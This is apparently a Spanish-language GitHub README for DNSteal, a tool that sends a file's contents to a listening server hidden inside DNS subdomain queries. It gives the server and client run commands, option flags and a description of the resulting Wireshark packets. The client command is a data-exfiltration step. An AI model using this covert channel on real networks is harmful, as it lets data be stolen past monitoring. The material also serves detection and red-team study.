



# DNSteal

## Uso

#### 💻 Ejecutar el programa

* **Server**

```bash
python3 DNS_Server.py
```


* **Client**

```bash
python3 DNS_Client.py -s Server_IP -f File
```



### 🚩 Flags del Programa

* **Server**

```bash
-s / --server: [Opcional] IP que quieras para el servidor. Predet = 0.0.0.0
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
-i / --ip: [Opcional] IP de respuesta falsa. Predet = 127.0.0.1
-p / --port: [Opcional] Puerto que desea utilizar. Predet = 53
```
* **Client**

```bash
-s / --server: [Requerido] IP a la que desea conectarse
-f / --file: [Requerido] Archivo que contiene el mensaje
-t / --time: [Opcional] Tiempo que las solicitudes esperan una respuesta del servidor. Predet = 5
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
```

### :movie_camera: Demostración de Uso

https://user-images.githubusercontent.com/35707527/210063728-522d5e92-1198-4cfb-9cf6-34a1e27cd88e.mp4

### :mailbox_with_mail: Paquetes de Wireshark

Se puede ver en el paquete el subdominio, el dominio y el tipo de registro DNS, el A



Y cuando inspeccionamos mas de cerca los paquetes podemos ver el puerto que hemos configurado para la peticion y la IP del servidor que hemos determinado con el argumento -s


